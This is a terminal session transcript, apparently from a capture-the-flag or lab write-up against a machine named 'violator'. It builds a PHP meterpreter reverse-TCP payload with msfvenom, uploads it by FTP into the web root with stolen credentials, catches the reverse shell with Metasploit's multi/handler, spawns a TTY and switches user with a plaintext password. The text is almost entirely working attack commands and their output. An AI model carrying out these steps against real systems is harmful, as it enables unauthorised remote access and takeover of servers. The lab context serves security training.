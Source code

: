 ```
paul@archyoga [11:03:11] [~]
-> % msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.1.109 LPORT=1337 R > exploit.php
fatal: Not a git repository (or any of the parent directories): .git
No platform was selected, choosing Msf::Module::Platform::PHP from the payload
No Arch selected, selecting Arch: php from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 949 bytes


paul@archyoga [11:03:15] [~]
-> % ftp 192.168.1.108                                                                     
Connected to 192.168.1.108.
220 ProFTPD 1.3.5rc3 Server (Debian) [::ffff:192.168.1.108]
Name (192.168.1.108:paul): dg
331 Password required for dg
Password:
230 User dg logged in
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> cd /var/www/html/
250 CWD command successful
ftp> put exploit.php
200 PORT command successful
150 Opening BINARY mode data connection for exploit.php
226 Transfer complete
949 bytes sent in 6.8e-05 seconds (13.3 Mbytes/s)
ftp> 221 Goodbye.

paul@archyoga [11:04:14] [~]
-> % msfconsole

...
msf > use exploit/multi/handler
msf exploit(handler) > set lhost 192.168.1.109
lhost => 192.168.1.109
msf exploit(handler) > set lport 1337
lport => 1337
msf exploit(handler) > set payload php/meterpreter/reverse_tcp
payload => php/meterpreter/reverse_tcp
msf exploit(handler) > exploit

[*] Started reverse TCP handler on 192.168.1.109:1337
[*] Starting the payload handler...
[*] Sending stage (33721 bytes) to 192.168.1.108
[*] Meterpreter session 1 opened (192.168.1.109:1337 -> 192.168.1.108:43369) at 2016-07-09 23:05:11 -0400
meterpreter > shell
Process 1314 created.
Channel 1 created.
python -c 'import pty;pty.spawn("/bin/sh")'
$ su dg
su dg
Password: policyoftruth

dg@violator:/var/www/html$
```
